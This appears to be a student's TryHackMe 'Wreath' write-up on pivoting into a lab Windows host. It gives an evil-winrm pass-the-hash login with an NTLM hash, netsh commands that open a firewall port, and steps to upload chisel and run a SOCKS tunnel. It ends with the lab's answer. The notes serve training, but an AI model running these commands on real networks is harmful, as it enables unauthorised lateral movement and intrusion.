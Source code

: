 We found two ports open in the previous task. RDP won't be of much use to us without credentials (or at least a hash, although Pass-the-Hash attacks are often restricted through RDP anyway); however, the webserver is worth looking into. Wreath told us that he worked on his website using a local environment on his own PC, so this bleeding-edge version may contain some vulnerabilities that we could use to exploit the target. Before we can do that, however, we must figure out how to access the development webserver on Wreath's PC from our attacking machine.

We have two immediate options for this: *Chisel*, and *Plink*.

If you followed the recommended route of using sshuttle to pivot from the webserver then a _chisel forward proxy_ is recommended here as it will be relatively easy to connect to through the sshuttle connection without requiring a relay -- look back at the Chisel task if you need help with this!

When using this option you will need to open up a port in the Windows firewall to allow the forward connection to be made. The syntax for opening a port using `netsh` looks something like this:  
`netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT`

Please use the `name-USERNAME` naming convention -- for example:  
`netsh advfirewall firewall add rule name="Chisel-MuirlandOracle" dir=in action=allow protocol=tcp localport=47000`  
![Demonstration of the above firewall rule through WinRM](https://assets.tryhackme.com/additional/wreath-network/31589c0e89b3.png)

Whether you choose the recommended option or not, get a pivot up and running!


![[AccesS to PC.svg]]

---

# Your job

1. For pivoting, we can use chisel. Run evil-winrm . #Attacking_Machine 
```
evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.84.150 -s /home/kali/Tryhackme/Wreath/Chisel_1.7.7
```

1. Open up a port for pivoting. #Evil-WinRM_shell 
```
netsh advfirewall firewall add rule name="Chisel-exec2" dir=in action=allow protocol=tcp localport=44444
```

1. Download   [chisel_1.7.7_windows_amd64.gz](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz)  and [chisel_1.7.7_linux_amd64.gz](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz) #Attacking_Machine 

2. Decompress the .gz file. #Attacking_Machine 

3. Upload the chisel.exe file in #Evil-WinRM_shell  session.
```
upload chisel.exe
```

4. Setup chisel server forward socks proxy on #Evil-WinRM_shell 
```
./chisel.exe server -p 44444 --socks5
```

5. Install chisel on Kali Linux. #Attacking_Machine 
	- Download `chisel_1.10.1_linux_amd64.deb` and decompress it.
	- Copy `chisel` file to `/usr/bin`.


6. Run chisel client. #Attacking_Machine 
```
chisel client 10.200.84.150:44444 9090:socks
```

Now the socks proxy is opened on port 9090 of our port

7. Setup FoxyProxy: Ensure you setup a `SOCKS5` proxy with *foxyproxy*:
	 ![[Pivoting-20250126190740769.webp]]

8. Navigate to http://10.200.X.100.
	 ![[Pivoting-20250126190906256.webp]]

9. Install wappalyzer extension on your browers and see the results.
	![[Pivoting-20250126191308575.webp]]

Access the website in your web browser (using FoxyProxy if you used the recommended forward proxy, or directly if you used a port forward).

> [!Question]
>Using the Wappalyzer browser extension ([Firefox](https://addons.mozilla.org/en-GB/firefox/addon/wappalyzer/) | [Chrome](https://chrome.google.com/webstore/detail/wappalyzer/gppongmhjkpfnbhagpmjfkannfbllamg?hl=en)) or an alternative method, identify the server-side Programming language (including the version number) used on the website.
>`PHP 7.4.11`


**Next step: ** [[The Wonders of Git]]
